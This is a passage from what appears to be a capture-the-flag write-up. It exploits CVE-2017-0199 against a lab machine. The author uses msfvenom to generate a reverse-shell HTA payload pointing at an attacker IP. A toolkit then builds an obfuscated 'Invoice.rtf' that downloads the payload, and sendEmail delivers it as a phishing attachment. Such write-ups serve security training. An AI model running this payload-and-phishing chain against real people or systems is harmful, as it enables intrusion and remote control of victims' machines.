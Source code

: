 {% embed url="https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=30009" %}

Googling for PoCs for this exploit leads me to this somewhat popular repository:

{% embed url="https://github.com/bhdresh/CVE-2017-0199" %}

Following the instructions, we can first generate a payload using `msfvenom`. Earlier, we saw that AppLocker is in place for most executables and scripts, and this exploit allows multiple other methods of getting RCE, such as generating a `hta` file.&#x20;

```
$ msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.42 lport=443 -f hta-psh > shell.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7263 bytes
```

We can host this file on our own Python HTTP server. Then, generate the RTF file required:

```
$ python2 cve-2017-0199_toolkit.py -M gen -t RTF -w Invoice.rtf -u http://10.10.14.42/shell.hta -x 1
Generating obfuscated RTF file.

Generated obfuscated Invoice.rtf successfull
```

Afterwards, we just need to use `sendEmail` with the file attached.&#x20;

```
$ sendEmail -f user@megabank.com -t nico@megabank.com -u "Invoice" -a Invoice.rtf -s 10.129.76.206
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

hello nico
Jun 16 09:45:50 kali sendEmail[7797]: Message input complete.
Jun 16 09:46:01 kali sendEmail[7797]: Email was sent successfully!
```

I tried this a few times, and it seems to only work when we use the `-x 0` flag instead. When changed, we can get a reverse shell as the user:

<figure><img src="../../../.gitbook/assets/image (1155).png" alt=""><figcaption></figcaption></figure>
